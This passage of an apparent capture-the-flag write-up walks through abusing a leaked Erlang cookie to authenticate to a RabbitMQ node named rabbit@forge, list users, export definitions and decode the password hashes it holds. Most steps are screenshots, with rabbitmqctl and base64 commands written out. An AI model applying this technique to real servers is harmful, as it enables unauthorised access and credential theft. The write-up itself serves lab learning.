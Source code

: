 ![Image30](https://api.pcloud.com/getpubthumb?code=XZzNjj5ZenY4hRiPtSSakGsFvV40mm14Vf87&linkpassword=&size=691x66&crop=0&type=auto)

- and using wget to download the file on the server for automated enumeration ... 

![Image31](https://api.pcloud.com/getpubthumb?code=XZJNjj5ZKvbuTFzXlqmy5IOuWd8lVhc301Fy&linkpassword=&size=1869x198&crop=0&type=auto)

- from here i found some erlang cookie file having cookie value in it 

![Image32](https://api.pcloud.com/getpubthumb?code=XZeNjj5ZaG4giARHrq5lEl1cxQQJmynCRK2V&linkpassword=&size=650x68&crop=0&type=auto)

- so , this is running Rabbitmq messaging server vonfirms via /etc/passwd file ....

![Image33](https://api.pcloud.com/getpubthumb?code=XZnNjj5ZhGv0dIXut4QH7Lrsc2L6N5OvUG2V&linkpassword=&size=785x58&crop=0&type=auto)

- i search for this messaging server and found that it uses the port 4369 and we can even search for it ... 

![Image34](https://api.pcloud.com/getpubthumb?code=XZxNjj5Zv52xsRCvTuSjW9yzVQKT45vj4J67&linkpassword=&size=818x337&crop=0&type=auto)

- Using the Erlang Cookie, we can authenticate and communicate with the RabbitMQ node. Since RabbitMQ nodes have the format `rabbit@<hostname>` by default, we add the target’s hostname (forge) to the /etc/hosts file: ( took hint from internet source )

![Image35](https://api.pcloud.com/getpubthumb?code=XZqNjj5ZW7kfsSHx3aVU5dPeCPYTezBWmCL7&linkpassword=&size=551x199&crop=0&type=auto)

- for this we first need to install the rabbitmq-server 

```bash
sudo apt install rabbitmq-server
```

![Image](https://api.pcloud.com/getpubthumb?code=XZINjj5ZxjxBcOw01yFFnX6xhmAqTby93xYk&linkpassword=&size=1871x166&crop=0&type=auto)

- now we will use this command to communicate to the server and enumerating ..

```bash
sudo rabbitmqctl --erlang-cookie '<cookie-value>' --node rabbit@forge list_users
```

![Image](https://api.pcloud.com/getpubthumb?code=XZiNjj5ZgwX0DzFSqRh2xux5xiBahH3mVxgX&linkpassword=&size=1228x133&crop=0&type=auto)

- Now we will dump the password hashes

```bash
sudo rabbitmqctl --erlang-cookie '<Your_erlang_cookie>' --node rabbit@forge export_definitions /tmp/conf.json
```

![Image36](https://api.pcloud.com/getpubthumb?code=XZpajj5ZTjMcf1Od080bYcHWvD7iMuOxiKvk&linkpassword=&size=1902x388&crop=0&type=auto)

- according to the RabbitMQ documentation this should be the formate to decode it ..
`base64(<4 byte salt> + sha256(<4 byte salt> + <password>))`
- now we will runthis command to convert it correctly ...

```bash
echo -n <entire 49e hash above> | base64 -d | xxd -p -c 100
```
